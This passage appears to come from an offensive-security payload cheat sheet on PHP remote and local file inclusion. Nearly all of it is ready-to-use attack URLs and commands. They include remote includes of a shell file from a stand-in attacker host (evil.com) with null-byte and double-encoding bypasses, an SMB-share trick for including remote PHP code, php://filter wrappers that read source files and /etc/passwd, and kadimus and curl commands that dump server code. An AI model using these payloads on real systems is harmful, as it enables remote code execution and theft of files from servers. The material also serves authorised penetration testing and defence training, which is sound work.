 Most of the filter bypasses from LFI section can be reused for RFI.

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

### **Null byte**

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### **Double encoding**

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### **Bypass allow\_url\_include**

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

## **LFI / RFI using wrappers**

### **Wrapper php://filter**

The part "php://filter" is case insensitive

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`:

* Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
* deflate then base64encode (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```
